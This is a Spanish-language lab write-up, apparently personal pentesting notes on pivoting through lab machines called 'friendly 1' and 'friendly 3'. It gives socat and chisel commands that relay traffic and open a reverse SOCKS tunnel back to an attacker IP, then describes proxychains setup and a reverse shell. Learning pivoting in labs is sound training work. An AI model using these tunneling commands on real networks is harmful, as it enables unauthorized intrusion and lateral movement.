 Ahora dentro de la máquina friendly 1 tengo que pasarme el chisel, primero compartiéndolo a través de un servidor http con python pasándo por el proxychains:
![[Pasted image 20230816161253.png]]
![[Pasted image 20230816161218.png]]
Y ahora lo que debemos hacer es primero ejecutar el socat dentro de friendly 3, de tal forma que diremos que el tráfico del puerto 4444 lo envíe al puerto 1234 de nuestra máquina atacante, que es donde tendremos el chisel:
```bash
./socat tcp-l:4444,fork,reuseaddr tcp:192.168.0.30:1234
```
![[Pasted image 20230816161901.png]]
Y ahora con chisel, desde la máquina friendly 1, tenemos que decir que todo el tráfico lo envíe a la máquina friendly 3 donde tenemos el socat, que en este caso la friendly 3 tiene la IP 192.168.0.21:
```bash
./chisel client 192.168.0.21:4444 R:8888:socks
```
![[Pasted image 20230822122607.png]]
Y habremos recibido la conexión en nuestra máquina local con el chisel:
![[Pasted image 20230816162216.png]]
Ahora vamos a editar el archivo de proxychains y descomentamos la línea donde dice scrict_chain:
![[Pasted image 20230816162618.png]]
Y comentamos esta línea:
![[Pasted image 20230816162719.png]]
Y abajo del todo añadimos el nuevo túnel que habíamos creado por el puerto 8888:
![[Pasted image 20230816162645.png]]
Y ahora si hacemos un whatweb a esta IP vemos que llegamos correctamente:
![[Pasted image 20230822183346.png]]
Y la vemos en el navegador:
![[Pasted image 20230822183359.png]]
Y podemos incluso enviarnos una reverse shell y entablar conexión desde esta máquina a la atacante:
![[Pasted image 20230822183902.png]]
![[Pasted image 20230822183909.png]]
En esta máquina nos volvemos a bajar el chisel:
![[Pasted image 20230822184710.png]]
